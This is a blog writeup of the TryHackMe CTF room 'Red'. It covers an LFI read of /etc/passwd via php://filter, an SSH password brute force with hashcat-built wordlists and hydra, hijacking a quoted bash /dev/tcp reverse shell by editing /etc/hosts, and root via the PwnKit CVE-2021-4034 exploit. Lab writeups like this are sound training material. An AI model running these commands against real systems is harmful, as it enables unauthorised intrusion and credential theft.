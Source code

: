 ```yaml
---
title: "THM - Red writeup"
date: 2024-05-02
image: /assets/images/red/red_banner.png
tags: [tryhackme, writeups, linux, nmap, path_traversal, hashcat, hydra, CVE-2021-4034]
categories: [TryHackMe, Writeup]
redirect_from: /2024/05/02/RED/
---
```


Hi,

been a long time since my last post. I have done some easy boxes on [TryHackMe](https://tryhackme.com).
And this is the writeup for one of those boxes I have done: [Red](https://tryhackme.com/r/room/redisl33t)

## Information Gathering

As always, lets start with nmap. I have my routine in using nmap:
First I set the current target ip into a variable

```bash
TARGET="TARGET_IP"
# or for fish shell, which I have choose as my default shell
set TARGET TARGET_IP
```

With this, I always use a default port scan followed by a service scan:

```bash
nmap -Pn $TARGET -oN ports && nmap -Pn -sC -sV -p $(grep '.*(?=\/tcp)' ports | tr '\n' ',') $TARGET -oN services
```

I only use `-p-` when I'm stuck and desperate.

This scan reveals only two open ports:

- 80 is running a webserver
- 22 running ssh

## Website

![atlas_website.png](/assets/images/red/atlas_website.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

As this is a CTF, I searched for hidden hints on the website, but couldn't find any. But one thing got my attention,
the url provides a variable:

```
?page=
```

So I tried some LFI techniques and run [feroxbuster](https://github.com/epi052/feroxbuster) but sadly there where no useful outputs.

Then I tried [php filters](https://book.hacktricks.xyz/pentesting-web/file-inclusion#php-filter) and got some useful outputs.

```
curl http://$TARGET:80/index.php?page=php://filter/resource=/etc/passwd
```

![curl_passwd.png](/assets/images/red/curl_passwd.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

Now there is our way in!

## First flag

I tried nearly everything, to get more information or even a real foothold without luck.

```
/home/blue/.ssh/
/home/red/.ssh/
/etc/crontab
...
```

But then I found something on blue's home directory:

![bash_history.png](/assets/images/red/bash_history.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

Sadly the passlist.txt file was deleted, but the way to build it is well documentated and the .reminder file still persists and is readable.

Now to build our wordlist (yes I tried it with rockyou.txt before, its a waste of time) we have to do the same thing, as red obviously did.

> Download the ruleset for hashcat if you miss it on your system: [best64.rule](https://github.com/CarlosLannister/OwadeReborn/blob/master/owade/fileAnalyze/hashcatLib/best64.rule)
{: .prompt-info}

Now run the same command locally:

```bash
hashcat --stdout .reminder -r ./best64.rule > passlist.txt
```

With the wordlist used to set the password of blue, we can now try to crack it against ssh.

```bash
hydra -I -l blue -P ./passlist.txt ssh://$TARGET
```

It will not take for long to find the password of the user blue:

![crack_blue.png](/assets/images/red/crack_blue.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

Now log in via ssh and print out the first flag, which lays in /home/blue directory.

## Second flag

While I was searching for an opportunity for lateral movement, my session disconnected...

![suprise.png](/assets/images/red/suprise.png){: w='1212' h='668' }

And there are print outs of the user red. (simulated, for sure)

I checked for SUID, cron jobs and misconfigurations in files, but nothing useful there. And while looking around, "red" kept kicking me out of the shell. Everytime I was kicked out, I had to bruteforce the password of user blue, because it had been changed. And yeah, I already tried to change the password to avoid being kicked out:

![pwchange.png](/assets/images/red/pwchange.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

Next I looked into the running processes, and couldn't find any suspicious process running by root, but one running by red:

```
bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 &
```

Obviously a reverse shell to a specific fqdn. Checking the `/etc/hosts` file and it contains the fqdn. I couldn't figure out where the command lays on the system. Even if I locate the command's executable, blue may not have the permission to read or execute the command.

After a while, I realized something! Every time when "red" writes a message to us, one of the two running reverse shell instances will be replaced from a new instance of the same reverse shell command:

![cronjob.png](/assets/images/red/cronjob.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

This means, that there is some cronjob running and it calls the command. Because there are two instances of the reverse shell command, we may have luck and the second command could be used to get a shell as user "red". In most modern system, if the fqdn resolves to multiple ips and the first ip is busy with an instance of the command, subsequent instances of the same command may attempt to connect to the other ip addresses associated with the fqdn.

Ok, fine. I just need to add my ip into the `/etc/hosts` file then. But there is one problem with that, the hosts file can't be written with texteditor like nano or vi. By using `lsattr` it can be seen that the file has `append-only` permission. So I had to use some sort of redirection.

```bash
echo "<MY-IP> redrules.thm" >> /etc/hosts
```

Running a netcat listener on port 9001, I was able to get a shell as user "red".

## Root flag

The root flag is an easy one, because on user red's home, there is a `.git` directory where an executable called `pkexec` lays.

![pkexecVersion.png](/assets/images/red/pkexecVersion.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

By looking up the version of pkexec on google, there can be seen a vulnerability: CVE-2021-4034

Most of the PoC's are written in C, but I searched for a python version of the exploit, to avoid the building process, and found one on github: [joeammond's CVE-2021-4034](https://github.com/joeammond/CVE-2021-4034)

For this PoC to work, I had to change the last line, which is referring to the pkexec location. After that, just upload it to the target with a python http server open.

```bash
python -m http.server 9090
```

![rootID.png](/assets/images/red/rootID.png){: .w-75 .shadow .rounded-10 w='1212' h='668' }

Now as root the root flag can be printed out easely...

Good luck :)

---

![darksoulsMeme.png](/assets/images/darksoulsMeme.png){: width="972" height="589" }

